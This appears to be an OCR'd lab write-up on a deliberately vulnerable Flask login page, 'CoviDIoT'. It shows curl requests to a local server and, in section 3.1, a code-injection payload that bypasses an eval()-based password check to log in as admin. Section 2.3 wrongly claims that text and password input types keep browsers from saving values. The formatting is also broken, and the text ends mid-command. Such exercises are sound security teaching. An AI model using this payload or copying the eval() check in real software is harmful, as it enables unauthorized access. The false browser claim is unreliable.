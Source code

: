 # 2
```html
# 2.1
```
Werkzeug/2.3.6 Python/3.10.6
```

# 2.2
```
curl -v 127.0.0.1:5000/login
```

```html
<!DOCTYPE html>
<html>
    <head><title>CoviDIoT - Login </title></head>
    <body>
        <h1>CoviDIoT - Login</h1>
        
        <form method=POST>
            Username: <input type="text" name="username"/><br/>
            Password: <input type="password" name="password"/><br/>
            <button>Login</button>
        </form>
    </body>
</html>
```

# 2.3
The inputs are of type text and password, which means that the browser will not save the values entered by the user. This is a security measure to prevent the browser from saving the password in plain text.


# 2.4
```
curl -v 127.0.0.1:5000/login/ -X POST -d "username=alice&password=1234"
```

# 3
# 3.1
```bash
curl -v 127.0.0.1:5000/login/ -X POST -d "username=admin&password=anything' or '"
```

If we take the method:
```python
def passcheck(user, password):
    return eval("'%s' == 'admin' and '%s' == supersecretpassword" % (user,password))
```

Then the above evaluates to:
```python
def passcheck(user, password):
    return eval("'admin' == 'admin' and 'anything' or '' == supersecretpassword")
```

```bash
for a in 
```
